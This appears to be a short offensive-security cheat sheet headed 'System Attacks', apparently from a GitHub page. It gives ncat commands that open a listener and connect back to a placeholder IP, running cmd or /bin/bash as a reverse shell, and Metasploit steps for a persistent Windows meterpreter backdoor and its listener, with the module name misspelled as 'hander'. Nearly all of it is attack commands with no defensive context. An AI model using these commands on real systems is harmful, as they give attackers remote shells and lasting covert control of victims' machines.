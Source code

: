 # System Attacks

## Backdoor

### ncat

Server (reverse connect)
```
ncat -l -p <port> -v
```
- -l : listen mode
- -p : port
- -v : verbose

Client (reverse cmd)
```
ncat -e cmd <ip> <port>
```
- -e : execute

Client (reverse shell)
```
ncat -e /bin/bash <ip> <port>
```
- -e : execute

### Meterpreter

Make Backdoor

```
use exploit/windows/local/s4u_persistence
```

```
set payload windows/meterpreter/reverse_tcp
```

```
set lhost <ip>
```

```
set lport <port>
```

```
exploit
```

Make Listener

```
use exploit/multi/hander
```

```
set payload windows/meterpreter/reverse_tcp
```
